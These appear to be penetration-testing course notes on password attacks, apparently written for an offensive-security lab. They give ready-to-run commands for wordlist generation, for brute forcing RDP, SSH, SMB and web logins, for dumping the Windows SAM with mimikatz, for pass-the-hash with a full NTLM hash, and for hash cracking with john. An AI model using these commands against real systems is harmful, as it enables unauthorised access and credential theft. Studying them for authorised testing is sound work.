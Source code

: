 # Password Attacks

## Wordlists

`cewl` generates a custom wordlist from scraping a website. Below we specify `-m 6` for words with a minimum of six characters, and `-w` to write to a custom file:

```bash
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```

If it weas discovered that a password policy required two digits at the end, we can mutate wordlists to include this permutation. Edit `/etc/john/john.conf`. The $ appends it to the password in the worldist.

Under the `[List.Rules:Wordlist]` section we can add:
```bash
# Add two numbers to the end of each password
$[0-9]$[0-9]
```

Then run with our generated wordlist to create the additional mutated passwords:  
`john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

## Brute Force Wordlists

A pattern such as the below can have a brute force list generated using crunch. For example:  
`[Capital Letter]  [2 x lower case letters]  [2 x special chars]  [3 x numeric]`  

This can then be generated in crunch, also specifying the minimum and maximum length, and the wordlist with `-t`.

`crunch 8 8 -t ,@@^^%%%`  

Where: @ = lower case alpha, , = upper case alpha, % = numeric, ^ = special characters.

`crunch` can also be used to generate a password list based on a character set:  
`crunch 4 6 0123456789ABCDEF -o crunch.txt`

Finally, pre defined character sets such as /usr/share/crunch/charset.lst can be used to generate lists:
```bash
# cat /usr/share/crunch/charset.lst
mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]

crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

# Network Service Attacks

## HTTP htaccess

Medusa usage for htaccess attack:  

`medusa -h 192.168.100.100 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

Medusa works with a variety of other protocols:  
`medusa -d`  E.g, smb:  
`medusa -h 192.168.141.10 -u admin -P crunch_smb.txt -M smbnt`

## RDP 

Invoke `crowbar` with `-b` for protocol, `-s` for target server, `-u` for username, `-C` for wordlist, and `-n` for number of threads:

```bash
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

RDP does not reliabliy handle multiple threads.

## SSH

Using `hydra` specify `-l` for the username, `-P` for the wordlist, and `procotol://IP` for the target protocol and IP.  

`hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`

## HTTP POST

Get help from hydra:  
`hydra http-form-post -U`  

We then need to look at form and determine the inputs, and find the condition string if a login is unsuccesful.

Using `-l` for username, `-P` for password wordlist, `-vV` for verbose output and `-f` to stop on first succesful test we can use:  
`hydra 192.168.141.10 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`  

# Password Hashes

We can identify a hash with `hashid`.

Training material slightly out of date, new hash type yescrypt:
https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html

Dump passwords with mimikatz.exe:

```
cmd
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Passing the Hash

We can use `pth-winexe` to conduct pass the hash attacks.

In this example `-U` specifies the hash, prepended by the username, followed by the UNC format SMB share and the command to be ran:
`pth-winexe -U offsec%61fc5cc76eab45fcf27f8b0c01386132:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.141.10 cmd`

## Password Cracking

With our mimikatz hashes:
```bash
sudo john hash.me --format=NT
# Add a wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hash.me --format=NT
# Use rules for word mangling
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.me --format=NT
# Unshadow Linux based hashes first
unshadow passwd-file.txt shadow-file.txt > unshadow
# Then proceed
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadow
# Note that yescrypt a newer hash type doesn't seem to be picked up by default:
https://security.stackexchange.com/questions/252665/does-john-the-ripper-not-support-yescrypt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadow


